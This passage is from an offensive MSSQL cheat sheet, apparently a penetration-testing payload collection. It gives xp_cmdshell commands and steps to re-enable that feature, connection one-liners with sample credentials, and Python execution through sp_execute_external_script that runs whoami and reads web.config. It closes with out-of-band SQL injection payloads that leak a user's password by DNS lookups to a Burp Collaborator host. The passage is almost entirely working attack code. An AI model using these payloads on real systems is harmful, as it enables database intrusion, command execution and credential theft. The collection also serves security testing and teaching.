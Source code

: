 ```sql
EXEC xp_cmdshell "net user";
EXEC master.dbo.xp_cmdshell 'cmd.exe dir c:';
EXEC master.dbo.xp_cmdshell 'ping 127.0.0.1';
```

If you need to reactivate xp_cmdshell (disabled by default in SQL Server 2005)

```sql
EXEC sp_configure 'show advanced options',1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell',1;
RECONFIGURE;
```

To interact with the MSSQL instance.

```powershell
sqsh -S 192.168.1.X -U sa -P superPassword
python mssqlclient.py WORKGROUP/Administrator:password@192.168.1X -port 46758
```

Execute Python script 

> Executed by a different user than the one using xp_cmdshell to execute commands

```powershell
#Print the user being used (and execute commands)
EXECUTE sp_execute_external_script @language = N'Python', @script = N'print(__import__("getpass").getuser())'
EXECUTE sp_execute_external_script @language = N'Python', @script = N'print(__import__("os").system("whoami"))'
#Open and read a file
EXECUTE sp_execute_external_script @language = N'Python', @script = N'print(open("C:\\inetpub\\wwwroot\\web.config", "r").read())'
#Multiline
EXECUTE sp_execute_external_script @language = N'Python', @script = N'
import sys
print(sys.version)
'
GO
```

## MSSQL Out of band

### MSSQL DNS exfiltration

Technique from https://twitter.com/ptswarm/status/1313476695295512578/photo/1

```powershell
# Permissions: Requires VIEW SERVER STATE permission on the server.
1 and exists(select * from fn_xe_file_target_read_file('C:\*.xel','\\'%2b(select pass from users where id=1)%2b'.xxxx.burpcollaborator.net\1.xem',null,null))

# Permissions: Requires the CONTROL SERVER permission.
1 (select 1 where exists(select * from fn_get_audit_file('\\'%2b(select pass from users where id=1)%2b'.xxxx.burpcollaborator.net\',default,default)))
1 and exists(select * from fn_trace_gettable('\\'%2b(select pass from users where id=1)%2b'.xxxx.burpcollaborator.net\1.trc',default))
```
